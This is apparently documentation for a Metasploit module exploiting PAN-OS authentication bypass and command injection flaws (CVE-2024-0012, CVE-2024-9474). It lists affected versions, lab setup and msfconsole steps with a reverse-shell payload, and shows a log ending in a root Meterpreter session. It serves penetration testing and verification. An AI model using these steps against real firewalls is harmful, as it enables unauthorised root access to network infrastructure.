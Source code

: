 ## Vulnerable Application
This module exploits an authentication bypass vulnerability (CVE-2024-0012) and a command injection
vulnerability (CVE-2024-9474) in the PAN-OS management web interface. An unauthenticated attacker can
execute arbitrary code with root privileges.

The following version are affected:
  * PAN-OS 11.2 (up to and including 11.2.4-h1)
  * PAN-OS 11.1 (up to and including 11.1.5-h1)
  * PAN-OS 11.0 (up to and including 11.0.6-h1)
  * PAN-OS 10.2 (up to and including 10.2.12-h2)

## Testing
Install a new PAN-OS instance as a VM in VMWare, by downloading an OVA for a vulnerable version, for example
`PA-VM-ESX-11.1.4.ova`. Install this OVA in VMWare Workstation and boot the device. The first ethernet adapter
will be assigned an IP address via DHCP. This is the IP address of the management interface. You can complete setup
by visiting `https://MANAGEMENT_IP/` in your browser. You do not need to license the target VM in order to successfully
run the exploit against the target. The default user is `admin` with a password of `admin`, and you will be instructed
to change this upon logging in for the first time.

The exploit has been tested against PAN-OS `10.2.8` and `11.1.4`, with the
payload `cmd/linux/http/x64/meterpreter_reverse_tcp`.

## Verification Steps

1. Start msfconsole
2. `use exploit/linux/http/panos_management_unauth_rce`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set PAYLOAD cmd/linux/http/x64/meterpreter_reverse_tcp`
5. `set LHOST eth0`
5. `set LPORT 4444`
6. `check`
7. `exploit`

## Scenarios

### Default

```
msf6 exploit(linux/http/panos_management_unauth_rce) > show options

Module options (exploit/linux/http/panos_management_unauth_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[
                                       ,type:host:port][...]
   RHOSTS   192.168.86.98    yes       The target host(s), see https://docs.me
                                       tasploit.com/docs/using-metasploit/basi
                                       cs/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connecti
                                       ons
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   FETCH_COMMAND      WGET             yes       Command to fetch payload (Acc
                                                 epted: CURL, FTP, TFTP, TNFTP
                                                 , WGET)
   FETCH_DELETE       false            yes       Attempt to delete the binary
                                                 after execution
   FETCH_FILENAME     DVtyQpcA         no        Name to use on remote system
                                                 when storing payload; cannot
                                                 contain spaces or slashes
   FETCH_SRVHOST                       no        Local IP to use for serving p
                                                 ayload
   FETCH_SRVPORT      8080             yes       Local port to use for serving
                                                  payload
   FETCH_URIPATH                       no        Local URI to use for serving
                                                 payload
   FETCH_WRITABLE_DI  /var/tmp         yes       Remote writable dir to store
   R                                             payload; cannot contain space
                                                 s
   LHOST              eth0             yes       The listen address (an interf
                                                 ace may be specified)
   LPORT              4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/panos_management_unauth_rce) > check
[+] 192.168.86.98:443 - The target is vulnerable.
msf6 exploit(linux/http/panos_management_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Uploading payload chunk 1 of 8...
[*] Uploading payload chunk 2 of 8...
[*] Uploading payload chunk 3 of 8...
[*] Uploading payload chunk 4 of 8...
[*] Uploading payload chunk 5 of 8...
[*] Uploading payload chunk 6 of 8...
[*] Uploading payload chunk 7 of 8...
[*] Uploading payload chunk 8 of 8...
[*] Amalgamating payload chunks...
[*] Executing payload...
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.98:52364) at 2024-11-19 15:16:55 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.86.98
OS           : CentOS 8.3.2011 (Linux 4.18.0-240.1.1.20.pan.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
